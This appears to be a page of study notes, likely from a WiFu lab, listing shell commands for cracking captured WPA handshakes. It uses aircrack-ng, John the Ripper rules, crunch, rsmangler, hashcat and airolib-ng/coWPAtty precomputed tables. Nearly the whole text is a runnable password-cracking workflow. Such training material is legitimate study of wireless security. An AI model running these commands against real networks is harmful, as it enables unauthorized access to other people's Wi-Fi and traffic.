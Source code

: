 ```
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap

#using Aircrack-ng with John the Ripper
## In order to add two numbers to the end of each password, add the following to  /etc/john/john.conf
$[0-9]$[0-9]
$[0-9]$[0-9]$[0-9]

##testing the rules 
john --wordlist=/usr/share/john/password.lst --rules --stdout | grep -i Password123

# crackinng using jtr
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap

# cracking unsing crunch
crunch 11 11 -t password%%% | aircrack-ng -e wifu crunch-01.cap -w -


#cracking with rsmangler
echo bird > wordlist.txt
echo cat >> wordlist.txt
echo dog >> wordlist.txt

rsmangler --file wordlist.txt --output mangled.txt
rsmangler --file wordlist.txt --min 12 --max 13
rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu rsmangler-01.cap -w -

#cracking with hashcat
## benchmarking
hashcat -b -m 2500
hashcat -b -m 22000

## cracking using 2500 mode
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx
hashcat -m 2500 --deprecated-check-disable output.hccapx /usr/share/john/password.lst

## cracking using 22000 mode
hcxpcapngtool -o hash.hc22000  wifu-01.cap
hashcat -a 0 -m 22000  hash.hc22000 /usr/share/john/password.lst --force

# craking using Airolib-ng
echo wifu > essid.txt
airolib-ng wifu.sqlite --import essid essid.txt
airolib-ng wifu.sqlite --stats

airolib-ng wifu.sqlite --import passwd /usr/share/john/password.lst
airolib-ng wifu.sqlite --batch
airolib-ng wifu.sqlite --stats

aircrack-ng -r wifu.sqlite wpa1-01.cap

# cracking using coWPAtty
## Creating pre-computed hash tables using genpmk 
genpmk -f /usr/share/john/password.lst -d wifuhashes -s wifu

## Using pre-computed hashtables with coWPAtty
cowpatty -r wpajohn-01.cap -d wifuhashes -s wifu
```
